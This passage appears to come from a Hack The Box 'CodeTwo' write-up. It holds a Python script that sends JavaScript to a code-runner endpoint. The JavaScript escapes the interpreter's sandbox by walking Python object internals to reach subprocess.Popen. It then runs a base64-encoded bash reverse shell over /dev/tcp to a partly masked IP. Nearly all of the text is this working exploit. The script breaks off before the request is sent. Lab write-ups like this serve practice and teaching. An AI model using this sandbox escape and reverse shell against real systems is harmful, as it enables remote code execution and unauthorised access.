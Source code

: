 ![base64](Pictures/htb_codetwo_rev.png)

Python

```
import requests  
import json  
  
url = 'http://codetwo.htb:8000/run_code'  
  
js_code = """  
let cmd = "printf KGJhc2ggPiYgL2Rldi90Y3AvMTAXXXXXXXXXXXXXXXXXXXm |base64 -d|bash";  
let a = Object.getOwnPropertyNames({}).__class__.__base__.__getattribute__;  
let obj = a(a(a,"__class__"), "__base__");  
function findpopen(o) {  
    let result;    
    for(let i in o.__subclasses__()) {        
        let item = o.__subclasses__()[i];        
        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {            
            return item;        
        }        
        if(item.__name__ != "type" && (result = findpopen(item))) {            
            return result;        
        }    
    }  
}  
let result = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate();  
console.log(result);  
result;  
"""  
  
payload = {"code": js_code}  
  
```